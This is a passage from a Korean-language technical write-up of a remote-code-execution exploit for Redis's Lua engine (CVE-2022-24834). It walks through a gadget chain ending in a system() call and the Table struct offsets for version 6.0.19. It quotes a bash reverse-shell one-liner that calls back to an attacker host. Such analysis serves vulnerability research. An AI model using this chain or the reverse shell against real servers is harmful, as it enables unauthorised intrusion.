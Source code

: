 `fake_function`이 호출되면 `gadget1`이 실행될 것이고 이때 rax는 호출된 `CClosure` 오브젝트의 시작 주소를 가리킵니다.

따라서 `gadget1`에서 `mov rdi, qword ptr [rax];`가 실행되면 먼저 rdi에 `arg1`의 주소 + 0x18이 저장됩니다. Lua에서는 문자열을 관리하는 오브젝트로 아래와 같은 `TString` 구조체를 사용하고 문자열 데이터는 구조체 바로 다음에 저장되어 있습니다.

```c
typedef union TString {
  L_Umaxalign dummy;  /* ensures maximum alignment for strings */
  struct {
    CommonHeader;
    lu_byte reserved;
    unsigned int hash;
    size_t len;
  } tsv;
} TString;
```

그렇기에 rdi에는 `arg1`의 문자열인 `cmd .. string.rep("\0", 56-#cmd) .. p64(addrof(ptr_ptr) + 0x18 - 0x10) .. p64(0)`의 주소가 저장됩니다.

다음으로 `mov rax, qword ptr [rdi + 0x38];`이 실행되면서 rax에는 `ptr_ptr`의 주소 + 0x8이 저장됩니다.

`ptr_ptr`은 `gadget2`와 `system` 함수의 주소값으로 이루어진 문자열로 `arg1`과 마찬가지로 문자열을 이루는 데이터는 `ptr_ptr`의 주소 + 0x18부터 존재합니다. 이후 `call qword ptr [rax + 0x10]`이 실행됨에 따라 `addrof(ptr_ptr) + 0x18`에 저장된 `gadget2`가 호출됩니다.

`gadget2`에서는 `call qword ptr [rax + 0x18]`이 실행되고 `gadget1`에 의해 `ptr_ptr`의 주소 + 0x8을 가리키는 rax에 0x18을 더한 주소에는 `system` 함수의 주소가 저장되어 있기 때문에 최종적으로 아래와 같은 함수 호출이 발생합니다

```c
system("[CMD]")
```

실행할 명령어는 `local cmd = "[CMD]"`로 정의된 `cmd`에 의해서 정해지게 되는데 이 부분이 서버에 접속하고 Lua 스크립트를 실행하기 위해 사용하는 python 코드에서 리버스 쉘을 실행하는 `bash -c 'bash -i >& /dev/tcp/{lhost}/{lport} 0>&1'`로 대체되면서 리버스 쉘을 획득할 수 있습니다.

## Remote Code Execution : Redis Version 6.0.19

Redis 6.0.19 버전에서도 위의 다른 두 버전과 같은 방식으로 RCE 익스플로잇이 가능하지만 동일한 Lua 스크립트를 사용하면 RCE가 이루어지지 않습니다. 그 이유는 익스플로잇에 사용된 오브젝트인 `Table`이 정의가 다르기 때문입니다.

![Untitled](1day1document_CVE-2022-24834/Untitled%204.png)

위와 같이 Redis 6.0.19와 7.0.11의 `lobject.h`를 비교해보면 6.0.19 버전에서는 `Table` 구조체에 `int readonly` 필드가 존재하지 않는 것을 확인할 수 있습니다. 따라서 아래와 같이 임의 주소 읽기/쓰기를 달성하기 위해 덮어쓰는 `Table` 구조체의 `array`, `sizearray` 등의 필드의 오프셋이 기존보다 8만큼 감소합니다.

```c
typedef struct Table {
   -- CommonHeader
   GCObject *next; //0x0
   lu_byte tt;
   lu_byte marked;
   lu_byte flags;  /* 1<<p means tagmethod(p) is not present */
   //int readonly; 
   lu_byte lsizenode;  /* log2 of size of `node' array */
   struct Table *metatable; //0x10
   TValue *array;  /* array part */ // 0x18
   Node *node; //0x20
   Node *lastfree;  /* any free position is before this position */ //0x28
   GCObject *gclist; // 0x30
   int sizearray;  /* size of `array' array */ // 0x38
} Table;
```
